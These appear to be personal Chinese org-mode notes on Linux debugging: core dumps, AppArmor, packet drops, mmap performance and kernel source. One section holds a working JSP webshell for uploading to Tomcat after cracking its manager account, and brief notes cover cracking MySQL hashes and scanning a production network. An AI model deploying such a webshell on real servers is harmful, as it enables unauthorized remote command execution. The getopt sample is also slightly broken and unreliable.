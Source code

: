 #+OPTIONS: "\n:t"

[[file:record_syncookie.org][* syncookie问题]]
* 获取token
* coredump被截断
  一个同事找我，看
  #gdb -c xxx.core
  显示
  BFD: Warning: /home/corefile/core.aaaservice.8689.1374747488 is truncated: expected core file size >= 6965805056, found: 1092853760.
  coredump文件被截断了。
#+begin_example
  aaa-a:/home/corefile # ulimit -a
  core file size          (blocks, -c) unlimited
  data seg size           (kbytes, -d) unlimited
  scheduling priority             (-e) 0
  file size               (blocks, -f) unlimited
  pending signals                 (-i) 63812
  max locked memory       (kbytes, -l) 64
  max memory size         (kbytes, -m) 6952488
  open files                      (-n) 1024
  pipe size            (512 bytes, -p) 8
  POSIX message queues     (bytes, -q) 819200
  real-time priority              (-r) 0
  stack size              (kbytes, -s) 8192
  cpu time               (seconds, -t) unlimited
  max user processes              (-u) 63812
  virtual memory          (kbytes, -v) 13258640
  file locks                      (-x) unlimited
#+end_example
  挺奇怪
  有看了/etc/security/limits.conf:
#+begin_example
        #-----------------------------------------------------------------
        # the following item is specially used by hitv  system
        # added by hitv_system_env_init.sh
        # date : Fri Mar 30 06:05:35 GMT 2012
        #-----------------------------------------------------------------
  @hitv    soft    stack    4096
  @hitv    hard    stack    4096
  @hitv    soft    nofile    10240
  @hitv    hard    nofile    65536

  * soft core unlimited
  * hard core unlimited
#+end_example
最后一行我加的。
但是，core了以后，还是被截断。

后来才发现他是以hitv用户运行的程序，
而该用户的core大小是受限的。

可以通过这个查看某个进程的limits
cat /proc/${pid}/limits
* nmap

使用nmap扫描生产网络。

* tomcat webshell
  使用建立web工程jsphack，
  在工程中加入一个cmd.jsp文件
  在jsphack目录下运行jar cvf *.* jsphack.war
  
  破解tomcat管理账户后，可以上传war工程。
  
  然后运行cmd.jsp spy.jsp可以运行远程机器上的命令，也可以获取文件。

#+begin_example
<%@ page contentType="text/html; charset=gb2312"%> 
<%@page import="java.io.*"%>
<%@page import="java.util.*"%>

<% 
String cmd = request.getParameter("cmd"); 
String output = ""; 

if(cmd != null) { 
  String s = null; 
  try { 
    Process p = Runtime.getRuntime().exec(cmd); 
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); 
    while((s = sI.readLine()) != null) { 
    output += s+"\n"; 
    } 
  } 
  catch(IOException e) { 
    e.printStackTrace(); 
  } 
}
output = output.replace("&","&amp;").replace("<","&lt;").replace(">","&gt;");
%> 
<form method="post" action="cmd.jsp"> 
<input name="cmd" type=text> 
<input type=submit value="Run"> 
</form> 
<textarea name="hack" rows="40" cols="100"> 
<%=output%> 
</textarea>
#+end_example
    
* mysql 密码破解
  mysql 密码信息放在user.MYD文件中。
  存放的是密码的SHA或者MD5的hashcode

  可以使用工具cain破解。

* rpm segment fault
  原因是stack 值太少
  rpm -ivh xxx.rpm
  segment fault

  linux-edr0:~ # ulimit -a | grep stack
  stack size              (kbytes, -s) 256

  # ulimit -s 8196
  然后运行rpm安装程序，正常。

** TODO 怎么能看出问题是由于stack设置过少导致的呢？
* ngnix TIME_WAIT 过多
ngx_http_finalize_connection
* named启动不了
#+begin_example
linux-152:~ # service named start
Starting name server BIND /usr/sbin/named: error while loading shared libraries: libz.so.1: failed to map segment from shared object: Permission denied
startproc:  exit status of parent of /usr/sbin/named: 127
                                                                     failed
linux-152:~ # ltrace
#+end_example
在suse上有类似SELinux的机制apparmor
这个问题看起来像apparmor引起的。

查找libz.so.1，发现/lib目录有一个。
编辑/etc/apparmor.d/usr.sbin.named:
加入一行：
/lib/* rm

然后运行：
#+begin_example
linux-152# aa-genprof named
[(S)can system log for AppArmor events] / (F)inish
Reading log entries from /var/log/audit/audit.log.
Updating AppArmor profiles in /etc/apparmor.d.
Profiling: /usr/sbin/named
#+end_example
生成named的新的apparmor配置

然后再次service named start，仍然不行。

使用strace
#+begin_example
linux-152# strace named
...
open("/usr/local/lib/libz.so.1", O_RDONLY) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@!\0\0\0\0\0\0"..., 832)                                                                                                                            = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=109107, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f6                                                                                                                           884c48000
mmap(NULL, 2195952, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = -1 E                                                                                                                           ACCES (Permission denied)
close(3)                                = 0
writev(2, [{"named", 5}, {": ", 2}, {"error while loading shared libra"..., 36},
           {": ", 2}, {"libz.so.1", 9}, {": ", 2}, {"failed to map segment from share"..., 40}, 
           {": ", 2}, {"Permission denied", 17}, {"\n", 1}], 
           10named: error while loading shared libraries: libz.so.1: failed to map segment from shared object: Permission denied
) = 116
exit_group(127)         
#+end_example
可以看到实际使用时/usr/local/lib/libz.so.1不是/lib目录下的。
再次修改/etc/apparmor.d/usr.sbin.named，再运行aa-genprof named.
再启动named，成功。

* ifconfig shows dropped rx packets

This document (7007165) is provided subject to the disclaimer at the end of this document. 
Environment
 SUSE Linux Enterprise Server 11 Service Pack 2
Situation
 ifconfig shows dropped rx packets
After updating to SLES 11 SP2 packets are being dropped
Dropped counter incrementing 
rx_dropped counter is incrementing

Customers have reported seeing dropped packets when examining statistics on their network card, bonds, or virtual interfaces.  


Resolution
 Working as designed.
Cause
 Beginning with kernel 2.6.37, it has been changed the meaning of dropped packet count. Before, dropped packets was most likely due to an error. Now, the rx_dropped counter shows statistics for dropped frames because of:

Softnet backlog full
Bad / Unintended VLAN tags
Unknown / Unregistered protocols
IPv6 frames when the server is not configured for IPv6

If any frames meet those conditions, they are dropped before the protocol stack and the rx_dropped counter is incremented.
Additional Information
 Care should be taken to confirm that frames are not being legitimately dropped.  A quick way to test this (WARNING: this test does not work for bonding interfaces) is to start a packet capture:

host:~# tcpdump

And then watching the rx_dropped counter.  If it stops incrementing while the tcpdump is running; then it is more than likely showing drops because of the reasons listed earlier.  If frames continue to be dropped while running tcpdump, investigation should take place to determine root cause.

This effect is seen starting from SLES 11 SP2, as it utilizes a 3.x kernel series. Previous SLES versions do not exhibit it (that are using kernels prior to 2.6.37)

Additional information can be found by researching commit # caf586e5

原因：dropped，现在加入了因为：
Softnet backlog full
Bad / Unintended VLAN tags
Unknown / Unregistered protocols
IPv6 frames when the server is not configured for IPv6

这几个原因，丢包的计数，而之前rx_dropped计数是属于硬件丢包。

运行tcpdump时，所有的包都会被上层接受，所以dropped计数不再增加。


运行命令，查看内核注册的支持的protocol
linux-17:~ # cat /proc/net/ptype
Type Device      Function
0800          ip_rcv+0x0/0x2f0
0011          llc_rcv+0x0/0x350 [llc]
0004          llc_rcv+0x0/0x350 [llc]
0806          arp_rcv+0x0/0x140
dada          edsa_rcv+0x0/0x2b0
001b          dsa_rcv+0x0/0x290
001c          trailer_rcv+0x0/0x190
86dd          ipv6_rcv+0x0/0x3e0 [ipv6_lib]

运行tcpdump 抓包是，
再次查看
linux-17:~ # cat /proc/net/ptype
Type Device      Function
ALL  eth0     tpacket_rcv+0x0/0x630 [af_packet]
0800          ip_rcv+0x0/0x2f0
0806          arp_rcv+0x0/0x140
dada          edsa_rcv+0x0/0x2b0
001b          dsa_rcv+0x0/0x290
001c          trailer_rcv+0x0/0x190
86dd          ipv6_rcv+0x0/0x3e0 [ipv6_lib]



现场使用tcpdump抓包，发现是有未注册的protocol

* ifconfig /proc/net/dev
* sysrq
  开启sysreq
 # sysctl -w kernel.sysrq=1 
 kernel.sysrq = 1 
 # cat /proc/sys/kernel/sysrq 
 1

Alt+SysRq+H 列出帮助
*
* sqlite3
  linux下可以使用命令sqlite3 xxx.db
  操作数据库文件

* python signal
  fcntl.fcntl(fd, fcntl.F_SETSIG, 0)
  flags = fcntl.DN_MODIFY | fcntl.DN_DELETE | fcntl.DN_CREATE | fcntl.DN_MULTISHOT
  # ctypes.c_int for fcntl.DN_MULTISHOT overflow in some machine
  fcntl.fcntl(fd, fcntl.F_NOTIFY, ctypes.c_int(flags).value)

  signal.signal(signal.SIGIO, handler)

  def handler(signum, frame):
      queue.put_nowait(1)


  发现handler经常就不起作用，最后发现应该python:Queue的api不是可重入的
  semphore 也不可重入
* atoll 返回结果溢出
  同事写一个程序，简化后如下：
#+begin_src c
 #include <stdio.h>
int main(int argc, char** argv)
{
  long long num = 0;
  num = atoll("100000000000");
  printf("num=%lld", num);
  return 0;
}
#+end_src
运行结果num=1215752192 


1215752192 = 0x4876E800
1000000000 = 0x174876E800
显然atoll返回的结果是32位的。
这个程序怎么能有问题。
后来换成strtoll，结果还是一样。

后来我想到突然想到可能是使用atoll()，没用include其头文件，导致c默认使用int作为返回值。
后来加上#include<stdlib.h>，
结果就正确了。

我对比了修改前后的编译结果，希望发现差异。
最后对比发现，出问题是仅多了一条指令ctlq

 # objdump -d main
00000000040058c <main>:
  40058c:	55                   	push   %rbp
  40058d:	48 89 e5             	mov    %rsp,%rbp
  400590:	48 83 ec 20          	sub    $0x20,%rsp
  400594:	89 7d ec             	mov    %edi,-0x14(%rbp)
  400597:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
  40059b:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp)
  4005a2:	00 
  4005a3:	bf d4 06 40 00       	mov    $0x4006d4,%edi
  4005a8:	b8 00 00 00 00       	mov    $0x0,%eax
  4005ad:	e8 d6 fe ff ff       	callq  400488 <atoll@plt>
  4005b2:	48 98                	cltq   
  4005b4:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  4005b8:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  4005bc:	bf e1 06 40 00       	mov    $0x4006e1,%edi
  4005c1:	b8 00 00 00 00       	mov    $0x0,%eax
  4005c6:	e8 9d fe ff ff       	callq  400468 <printf@plt>
  4005cb:	b8 00 00 00 00       	mov    $0x0,%eax
  4005d0:	c9                   	leaveq 
  4005d1:	c3                   	retq   


  使用gdb调试，运行ctlq前，rax=0x174876e800,还是正确的，
  之后就切成32位。
  # gdb main
  (gdb) b *0x4005b2
  Breakpoint 1 at 0x4005b2
  (gdb) r
  Breakpoint 1, 0x00000000004005b2 in main ()
  (gdb) x /i $pc
  => 0x4005b2 <main+38>:  cltq
  (gdb) p /x $rax
  $1 = 0x174876e800
  (gdb) si
  0x00000000004005b4 in main ()
  (gdb) p /x $rax
  $2 = 0x4876e800
  (gdb)


  cltq指令
  cltq R[%rax ] <- SignExtend(R[%eax]) Convert %eax to quad word，将$eax转化为4字，不就是RAX了嘛，切，
  cltq是有符号数的扩展，如果$eax的最高的32位为1的话，RAX的高32扩展后全为1，相反如果$EAX的高位为0的话，则扩展出来后全为0
* CLOSE_WAIT
  被动关闭端，收到FIN后，如果不关闭socket，那么将socket永久处于CLOSE_WAIT状态。
* server 不accept
  server 监听一个端口（server backlog = 128)
  client 不断向server建立连接。
  当建立链接数超过128后，server端ESTAB状态的链接不再增加，而SYN-RECV状态的链接开始增多。
  此是client端的ESTAB状态一直增加。
  
  从实验可以看到，当连接数超过128后，Server仍然向client发送syn/ack，但是syn-recv状态定时器开启，重试发送5次后超时。放弃链接。
  而client端确对此一无所知，还认为是合法链接。
  
* 写mmap内存变慢的原因
  同事写的程序在线上遇到性能问题，
  拉了一堆人一起分析原因。最后大家一致认定是由于访问锁把速度拉下慢了。
  但是通过看代码也没有看到锁用不当的地方。
  最后人们终于发现是一处代码将一个文件mmap了，再mmap的内存中存放锁！！
  就是由于访问锁的内存操作慢，所以才导致了整体性能下降。
  
  tony将频繁些磁盘的jdb2内核线程停掉，再进行测试，问题就没有了。
  
  后来我写了一个测试程序：
#+begin_src c
#include <sys/mman.h> /* for mmap and munmap */
#include <sys/types.h> /* for open */
#include <sys/stat.h> /* for open */
#include <fcntl.h>     /* for open */
#include <unistd.h>    /* for lseek and write */
#include <stdio.h>
#include <string.h> /* for memcpy */
#include <sys/mman.h>

int main(int argc, char **argv)

{
    int fd;
    char *mapped_mem, * p;
    int flength = 1024;
    void * start_addr = 0;
    struct timeval tpstart,tpend;
    double timeuse;
    int count = 0;
    int rc;
    fd = open(argv[1], O_RDWR | O_CREAT, S_IRUSR | S_IWUSR);
    flength = lseek(fd, 1, SEEK_END);
    write(fd, "\0", 1); /* 在文件最后添加一个空字符，以便下面printf正常工作 */
    lseek(fd, 0, SEEK_SET);
    //start_addr = 0x80000;
    mapped_mem = mmap(NULL, flength, PROT_READ|PROT_WRITE,
                      MAP_SHARED,
                      fd, 0);
    rc = mlock(mapped_mem, flength);
    printf("mlock ------------------rc=%d\n", rc);
    madvise(mapped_mem, flength, MADV_WILLNEED);
    while(1) {
        char buf[256];
        printf("------------------------------------------\n");
        gettimeofday(&tpstart,NULL);

        strcpy(buf, mapped_mem);

        gettimeofday(&tpend,NULL);
        timeuse=1000000*(tpend.tv_sec-tpstart.tv_sec)+tpend.tv_usec-tpstart.tv_usec;
        timeuse/=1000000;
        printf("read processor time is %lf s\n",timeuse);

        printf("%s\n", buf);
        sprintf(buf,"linux%d", count++);

        gettimeofday(&tpstart,NULL);

        strcpy(mapped_mem, buf);

        gettimeofday(&tpend,NULL);
        timeuse=1000000*(tpend.tv_sec-tpstart.tv_sec)+tpend.tv_usec-tpstart.tv_usec;
        timeuse/=1000000;
        printf("write processor time is %lf s\n",timeuse);

        sleep(1);
    }
    close(fd);
    munmap(mapped_mem, flength);
    return 0;

}

#+end_src

 运行: testmap test.txt

 同时在另一个窗口，运行fsync test.txt
 发现每次运行fsync，testmap程序花在写的时间就增加很多。
 
 我就疑惑为什么，page cache不会怎么快就被换出去啊，但是写时间增加，应该是由于触发page fault。
 但是为什么呢？？
 这样刷新文件的writeback操作会影响写内存的操作？

 原来：
 在write_cache_pages里，lock_page以后会调用clear_page_dirty_io(page)
 然后：
 --> clear_page_dirty_for_io(page)
 --> page_mkclean(page)
 --> page_mkclean_file(page)
 --> page_mkclean_one(page)

 而page_mkclean_one(page)，里面会执行pte_wrprotect(entry),
 也就是置pte为写保护。
 当应用写这个page时，就会碰到写保护，触发do_page_fault,即使这个page已经在内存中了。
 --> do_page_fault
 --> handle_mm_fault
 --> handle_pte_fault

 handle_pte_fault 一段代码：
   if(flags & FAULT_FLAGS_WRITE) {
      if(!pte_write(entry))
          return do_wp_page(mm, vma, address,
                    pte, pmd, ptl, entry);
       entry = pte_mkdirty(entry);
   }
 
而do_wp_page,会对可写且共享的vma里的page，依次调用page_mkwrite。

page_mkwrite会lock_page
*  ntoa
写一个程序测试dns
#+begin_src c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <netdb.h>
#include <sys/types.h>
#include <netinet/in.h>

int main(int argc, char *argv[])
{
    struct hostent *h;

    if (argc != 2) {
        fprintf(stderr,"usage: getip address\n");
        exit(1);
    }
    sethostent(1);

    if ((h=gethostbyname(argv[1])) == NULL) {
        herror("gethostbyname");
        exit(1);
    }

    printf("Host name : %s\n", h->h_name);
    printf("IP Address : %s\n",inet_ntoa(*((struct in_addr *)h->h_addr)));

    return 0;
}

#+end_src

最后一个printf总崩掉，原因，inet_ntoa没有引用头文件，返回int型了。而测试的机器是64位的。
char * 和 int位数不同。

* getopt

#+begin_src c
     #include <ctype.h>
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     
     int
     main (int argc, char **argv)
     {
       int aflag = 0;
       int bflag = 0;
       char *cvalue = NULL;
       int index;
       int c;
     
       opterr = 0;
     
       while ((c = getopt (argc, argv, "abc:d::")) != -1)
         switch (c)
           {
           case 'a':
             aflag = 1;
             break;
           case 'b':
             bflag = 1;
             break;
           case 'c':
             cvalue = optarg;
             break;
           case '?':
             if (optopt == 'c')
               fprintf (stderr, "Option -%c requires an argument.\n", optopt);
             else if (isprint (optopt))
               fprintf (stderr, "Unknown option `-%c'.\n", optopt);
             else
               fprintf (stderr,
                        "Unknown option character `\\x%x'.\n",
                        optopt);
             return 1;
           case 'd':
             dvalue = optarg;

           default:
             abort ();
           }
     
       printf ("aflag = %d, bflag = %d, cvalue = %s, dvalue = %s\n",
               aflag, bflag, cvalue, dvalue);
     
       for (index = optind; index < argc; index++)
         printf ("Non-option argument %s\n", argv[index]);
       return 0;
     }

#+end_src

* netstat 原理
  读取/proc文件系统
  
  /proc/net/tcp -- TCP socket information

 tcp4_seq_show() -> get_tcp4_sock()
关于其中rx_queue的含义：
#+begin_src c
	if (sk->sk_state == TCP_LISTEN)
		rx_queue = sk->sk_ack_backlog;
	else
		/*
		 * because we dont lock socket, we might find a transient negative value
		 */
		rx_queue = max_t(int, tp->rcv_nxt - tp->copied_seq, 0);
#+end_src
我们可以看出
对于处于LISTEN状态的的链接，rx_queue是半链接队列的长度。
处于其他状态的，rx_queue是尚未被用户态处理的数据字节数

  /proc/net/udp -- UDP socket information

* ipvs
ip_vs_schedule() -> dest = svc->scheduler->schedule(svc, skb);
->ip_vs_rr_schedule()

	do {
		/* skip list head */
		if (q == &svc->destinations) {
			q = q->next;
			continue;
		}

		dest = list_entry(q, struct ip_vs_dest, n_list);
		if (!(dest->flags & IP_VS_DEST_F_OVERLOAD) &&
		    atomic_read(&dest->weight) > 0)
			/* HIT */
			goto out;
		q = q->next;
	} while (q != p);


而IP_VS_DEST_F_OVERLOAD，是由下面代码设置的
ip_vs_bind_dest()
	if (dest->u_threshold != 0 &&
	    ip_vs_dest_totalconns(dest) >= dest->u_threshold)
		dest->flags |= IP_VS_DEST_F_OVERLOAD;

* strncpy strncat snprintf
char *strncpy(char *dest, const char *src, size_t n);
最多从src中拷贝n个字符到dest。如果src的大小小于n，那么dest剩下的部分将被填0；
如果src的大小大于等于n，那么dest剩下的部分不会被填0，于是dest将不会以0结束。

#+begin_src
           char*
           strncpy(char *dest, const char *src, size_t n){
               size_t i;

               for (i = 0 ; i < n && src[i] != '\0' ; i++)
                   dest[i] = src[i];
               for ( ; i < n ; i++)
                   dest[i] = '\0';

               return dest;
           }
#+end_src
char *strncat(char *dest, const char *src, size_t n);
最多从源中拷贝n个字符到目标串中，并在后面加一个0；也就是说，最多会有n+1个字符被写进dest。如果dest的容量为n，那么将会dest将会溢出。


int snprintf(char *str, size_t size, const char *format, ...);
最多从源串中拷贝size－1个字符到目标串中，然后再在后面加一个0。所以如果目标串的大小为size的话，将不会溢出。
所以，字符串拷贝，最好用snprintf。

* man proc
  我一直想找的/proc的详细描述
  man proc
* nohup 代码
nohup 实现原来如此简单
#+begin_src c
int
fd_reopen (int desired_fd, char const *file, int flags, mode_t mode)
{
  int fd = open (file, flags, mode);

  if (fd == desired_fd || fd < 0)
    return fd;
  else
    {
      int fd2 = dup2 (fd, desired_fd);
      int saved_errno = errno;
      close (fd);
      errno = saved_errno;
      return fd2;
    }
}
#+end_src

#+begin_src c
  ignoring_input = isatty (STDIN_FILENO);
  redirecting_stdout = isatty (STDOUT_FILENO);
  stdout_is_closed = (!redirecting_stdout && errno == EBADF);
  redirecting_stderr = isatty (STDERR_FILENO);

  /* If standard input is a tty, replace it with /dev/null if possible.
     Note that it is deliberately opened for *writing*,
     to ensure any read evokes an error.  */
  /* 忽略输入时，将标准输入的fd设置为/dev/null */
  if (ignoring_input)
    {
      if (fd_reopen (STDIN_FILENO, "/dev/null", O_WRONLY, 0) < 0)
        {
          error (0, errno, _("failed to render standard input unusable"));
          exit (exit_internal_failure);
        }
      if (!redirecting_stdout && !redirecting_stderr)
        error (0, 0, _("ignoring input"));
    }

  /* If standard output is a tty, redirect it (appending) to a file.
     First try nohup.out, then $HOME/nohup.out.  If standard error is
     a tty and standard output is closed, open nohup.out or
     $HOME/nohup.out without redirecting anything.  */
 /* 输出是tty时，将STDOUT的fd设置为nohup.out文件的fd 
    如果当前目录下nohup.out打开失败，那么尝试打开$HOME/nohup.out
 */
  if (redirecting_stdout || (redirecting_stderr && stdout_is_closed))
    {
      char *in_home = NULL;
      char const *file = "nohup.out";
      int flags = O_CREAT | O_WRONLY | O_APPEND;
      mode_t mode = S_IRUSR | S_IWUSR;
      mode_t umask_value = umask (~mode);
      out_fd = (redirecting_stdout
                ? fd_reopen (STDOUT_FILENO, file, flags, mode)
                : open (file, flags, mode));

      if (out_fd < 0)
        {
          int saved_errno = errno;
          char const *home = getenv ("HOME");
          if (home)
            {
              in_home = file_name_concat (home, file, NULL);
              out_fd = (redirecting_stdout
                        ? fd_reopen (STDOUT_FILENO, in_home, flags, mode)
                        : open (in_home, flags, mode));
            }
          if (out_fd < 0)
            {
              int saved_errno2 = errno;
              error (0, saved_errno, _("failed to open %s"), quote (file));
              if (in_home)
                error (0, saved_errno2, _("failed to open %s"),
                       quote (in_home));
              exit (exit_internal_failure);
            }
          file = in_home;
        }

      umask (umask_value);
      error (0, 0,
             _(ignoring_input
               ? N_("ignoring input and appending output to %s")
               : N_("appending output to %s")),
             quote (file));
      free (in_home);
    }

  /* If standard error is a tty, redirect it.  */
  if (redirecting_stderr)
    {
      /* Save a copy of stderr before redirecting, so we can use the original
         if execve fails.  It's no big deal if this dup fails.  It might
         not change anything, and at worst, it'll lead to suppression of
         the post-failed-execve diagnostic.  */
      saved_stderr_fd = dup (STDERR_FILENO);

      if (0 <= saved_stderr_fd
          && set_cloexec_flag (saved_stderr_fd, true) != 0)
        error (exit_internal_failure, errno,
               _("failed to set the copy of stderr to close on exec"));

      if (!redirecting_stdout)
        error (0, 0,
               _(ignoring_input
                 ? N_("ignoring input and redirecting stderr to stdout")
                 : N_("redirecting stderr to stdout")));

      if (dup2 (out_fd, STDERR_FILENO) < 0)
        error (exit_internal_failure, errno,
               _("failed to redirect standard error"));

      if (stdout_is_closed)
        close (out_fd);
    }

  /* error() flushes stderr, but does not check for write failure.
     Normally, we would catch this via our atexit() hook of
     close_stdout, but execvp() gets in the way.  If stderr
     encountered a write failure, there is no need to try calling
     error() again, particularly since we may have just changed the
     underlying fd out from under stderr.  */
  if (ferror (stderr))
    exit (exit_internal_failure);

  signal (SIGHUP, SIG_IGN);

  {
    int exit_status;
    int saved_errno;
    char **cmd = argv + optind;

    execvp (*cmd, cmd);
    exit_status = (errno == ENOENT ? EXIT_ENOENT : EXIT_CANNOT_INVOKE);
    saved_errno = errno;

    /* The execve failed.  Output a diagnostic to stderr only if:
       - stderr was initially redirected to a non-tty, or
       - stderr was initially directed to a tty, and we
         can dup2 it to point back to that same tty.
       In other words, output the diagnostic if possible, but only if
       it will go to the original stderr.  */
    if (dup2 (saved_stderr_fd, STDERR_FILENO) == STDERR_FILENO)
      error (0, saved_errno, _("failed to run command %s"), quote (*cmd));

    exit (exit_status);
  }
}

#+end_src
* /proc/meminfo

kernel 2.6.18中
#+begin_src c
static int meminfo_read_proc(char *page, char **start, off_t off,
				 int count, int *eof, void *data)
{
	struct sysinfo i;
        ....
	get_zone_counts(&active, &inactive, &free);

/*
 * display in kilobytes.
 */
 #define K(x) ((x) << (PAGE_SHIFT - 10))
	si_meminfo(&i);
	si_swapinfo(&i);
	committed = atomic_read(&vm_committed_space);
	allowed = ((totalram_pages - hugetlb_total_pages())
		* sysctl_overcommit_ratio / 100) + total_swap_pages;

	cached = global_page_state(NR_FILE_PAGES) -
			total_swapcache_pages - i.bufferram;
	if (cached < 0)
		cached = 0;

	get_vmalloc_info(&vmi);

	/*
	 * Tagged format, for easy grepping and expansion.
	 */
	len = sprintf(page,
		"MemTotal:     %8lu kB\n"
		"MemFree:      %8lu kB\n"
		"Buffers:      %8lu kB\n"
		"Cached:       %8lu kB\n"
		"SwapCached:   %8lu kB\n"
		"Active:       %8lu kB\n"
		"Inactive:     %8lu kB\n"
		"HighTotal:    %8lu kB\n"
		"HighFree:     %8lu kB\n"
		"LowTotal:     %8lu kB\n"
		"LowFree:      %8lu kB\n"
		"SwapTotal:    %8lu kB\n"
		"SwapFree:     %8lu kB\n"
		"Dirty:        %8lu kB\n"
		"Writeback:    %8lu kB\n"
		"AnonPages:    %8lu kB\n"
		"Mapped:       %8lu kB\n"
		"Slab:         %8lu kB\n"
		"PageTables:   %8lu kB\n"
		"NFS_Unstable: %8lu kB\n"
		"Bounce:       %8lu kB\n"
		"CommitLimit:  %8lu kB\n"
		"Committed_AS: %8lu kB\n"
		"VmallocTotal: %8lu kB\n"
		"VmallocUsed:  %8lu kB\n"
		"VmallocChunk: %8lu kB\n",
		K(i.totalram),
		K(i.freeram),
		K(i.bufferram),
		K(cached),
		K(total_swapcache_pages),
		K(active),
		K(inactive),
		K(i.totalhigh),
		K(i.freehigh),
		K(i.totalram-i.totalhigh),
		K(i.freeram-i.freehigh),
		K(i.totalswap),
		K(i.freeswap),
		K(global_page_state(NR_FILE_DIRTY)),
		K(global_page_state(NR_WRITEBACK)),
		K(global_page_state(NR_ANON_PAGES)),
		K(global_page_state(NR_FILE_MAPPED)),
		K(global_page_state(NR_SLAB)),
		K(global_page_state(NR_PAGETABLE)),
		K(global_page_state(NR_UNSTABLE_NFS)),
		K(global_page_state(NR_BOUNCE)),
		K(allowed),
		K(committed),
		(unsigned long)VMALLOC_TOTAL >> 10,
		vmi.used >> 10,
		vmi.largest_chunk >> 10
		);

		len += hugetlb_report_meminfo(page + len);

	return proc_calc_metrics(page, start, off, count, eof, len);
 #undef K
}
#+end_src
page_alloc.c:
#+begin_src c
void si_meminfo(struct sysinfo *val)
{
	val->totalram = totalram_pages;
	val->sharedram = 0;
	val->freeram = nr_free_pages();
	val->bufferram = nr_blockdev_pages();
 #ifdef CONFIG_HIGHMEM
	val->totalhigh = totalhigh_pages;
	val->freehigh = nr_free_highpages();
 #else
	val->totalhigh = 0;
	val->freehigh = 0;
#endif
	val->mem_unit = PAGE_SIZE;
}
#+end_src

block_dev.c:
nr_blockdev_pages计算块设备使用的页框数，遍历所有块设备，将使用的页框数相加。而不包含普通文件使用的页框数
#+begin_src c
long nr_blockdev_pages(void)
{
	struct list_head *p;
	long ret = 0;
	spin_lock(&bdev_lock);
	list_for_each(p, &all_bdevs) {
		struct block_device *bdev;
		bdev = list_entry(p, struct block_device, bd_list);
		ret += bdev->bd_inode->i_mapping->nrpages;
	}
	spin_unlock(&bdev_lock);
	return ret;
}
#+end_src

** 释放cache
Free命令输出的第一行是对应的实实在在的内存，不管是buffer，还是cache。Swap对应磁盘上的交换分区。Kernel会尽量使用RAM做cache，所以一般cache都比较大：
             total       used       free     shared    buffers     cached
Mem:       8164308    8111364     52944          0     310644     3502208
-/+ buffers/cache:     4298512    3865796
Swap:      2104504     440        2104064
8G的内存，而空闲(free)的内存只有约50M，比较惊人。其实，cached占了3G+。另外，我们看到第三行used列约为4G，是比较大的，确实，该机器上跑了好几个接入服务。
 
 

Kernel2.6.16之后的版本提供了一种释放cache的机制，通过修改内核参数/proc/sys/vm/drop_caches让内核释放干净的cache。
To free pagecache:
         echo 1 > /proc/sys/vm/drop_caches
To free dentries and inodes:
         echo 2 > /proc/sys/vm/drop_caches
To free pagecache, dentries and inodes:
         echo 3 > /proc/sys/vm/drop_caches
 
 # free
             total       used       free     shared    buffers     cached
Mem:       1966220    1676428     289792          0     418900     705216
-/+ buffers/cache:     552312    1413908
Swap:      2104504     131084    1973420
 # echo 1 > /proc/sys/vm/drop_caches
 # free
             total       used       free     shared    buffers     cached
Mem:       1966220     597840    1368380          0        324      65852
-/+ buffers/cache:     531664    1434556
Swap:      2104504     131084    1973420
设置内核参数drop_caches后，cached的值迅速下降。通常来说，Linux会尽量使用可用的RAM，cache过高，是正常的。而手动释放cache会增加I/O开销，导致系统性能下降。

* free
free 输出字段的意义

             total       used       free     shared    buffers     cached
Mem:       1028444     991676      36768          0      18080     632156
-/+ buffers/cache:     341440     687004
Swap:            0          0          0

